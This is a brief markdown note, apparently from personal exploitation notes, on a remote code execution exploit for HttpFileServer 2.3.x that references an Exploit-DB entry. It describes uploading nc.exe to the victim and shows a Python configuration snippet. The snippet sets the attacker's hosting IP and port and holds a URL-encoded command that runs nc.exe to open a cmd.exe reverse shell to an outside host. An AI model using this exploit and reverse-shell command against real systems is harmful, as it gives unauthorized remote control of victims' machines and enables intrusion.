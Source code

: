 # MS14-058 HttpFileServer 2.3.x RCE

source: https://www.exploit-db.com/exploits/37064
 
Upload `nc.exe` into victim machine and performs a reverse shell using `nc.exe`

Edit python script for RCE

```python
    #change these to your webserver for uploading nc.exe
    ip_addr = "192.168.1.20" 
    local_port = "80" 
    #file will be uploaded to and run from C:\Users\Public, change ip and port here to catch your reverse shell
    vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20192.168.1.10%20443%20-e%20cmd.exe"
```

